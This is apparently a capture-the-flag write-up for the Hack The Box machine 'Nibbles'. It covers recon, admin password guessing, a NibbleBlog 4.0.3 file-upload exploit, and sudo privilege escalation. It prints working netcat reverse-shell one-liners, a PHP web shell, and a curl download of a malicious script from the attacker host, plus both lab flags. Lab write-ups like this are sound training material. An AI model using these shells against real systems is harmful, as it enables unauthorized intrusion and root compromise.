## Hack The Box - Nibbles

## Information
### Room URL
https://app.hackthebox.com/machines/Nibbles

### Target Machine IP
10.10.13.82

### Attacker Machine IP (curl 10.10.10.10/whoami)
10.10.14.147

### Information Gathering
nmap -p- --min-rate 5000 -sV 10.129.131.68


Viewing webpage with inspect open


Viewing http://10.129.131.68/nibbleblog/


Internet research reveals an arbitrary file upload vulnerability for version 4.0.3:

https://www.exploit-db.com/exploits/38489

https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html

This page doesnt seem to be going anywhere so start up gobuster:

gobuster dir -u http://10.129.131.68/nibbleblog/ -w /usr/share/dirb/wordlists/common.txt



/admin


/content


http://10.129.131.68/nibbleblog/content/private/users.xml


/admin.php


We know the admin page has a "admin" login from the users.xml but we dont know the password. Hydra cracking is not an option because IP addresses are blacklisted after too many attempts.

Looking back through the content directory, a page config.xml is found.


This page makes mention of "nibbles" many times and is the name of the machine. Attempting to use this as the admin password is successful



### Admin Page

Looking in the settings page reveals that version 4.0.3 is running, which is the version vulnerable to arbitrary file inclusion



For this exploit to work, the My Image plugin must be enabled, which it already is. Choose to configure it:



The following bash will form our reverse shell

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.147 4443 >/tmp/f

Then wrap in php code, save to shell.php and upload.

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.147 4443 >/tmp/f"); ?>

The page gives a bunch of warnings, but that is ok because going to:

http://10.129.131.68/nibbleblog/content/private/plugins/my_image/

We can see that the shell was uploaded as image.php!

Set up a netcat listener:

nc -lvnp 4443

To trigger the reverse shell, visit: http://10.129.131.68/nibbleblog/content/private/plugins/my_image/image.php

And the shell worked!



### Finding the User Flag

Running the following command upgrades the basic shell to a TTY one:

python3 -c 'import pty; pty.spawn("/bin/bash")'

Running whoami shows the account is "nibbler"

Changing directory to user root (cd ~), and running ls shows the flag



79c03865431abf47b90ef24b9695e148

### Privilege Escalation

By unzipping the personal.zip folder, we find a file monitor.sh



Running sudo -l shows that the monitor.sh can be run with root privilege



Attempting to run the shell works as expected



Create another reverse shell to replace monitor.sh with (saved as monitor.sh)

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.147 4445 >/tmp/f

Upload the new monitor.sh with the reverse shell:

curl http://10.10.14.147:8000/monitor.sh -o monitor.sh

Start a netcat listener:

nc -nlvp 4445

Run the new monitor.sh as sudo:

sudo ./monitor.sh

Open the new nc listener and see the shell has connected. Run whoami:



### Finding the Root Flag

Again run the command to upgrade to a TTY shell:

python3 -c 'import pty; pty.spawn("/bin/bash")'

Look for the root flag:



de5e5d6619862a8aa5b9b212314e0cdd

Room Complete :)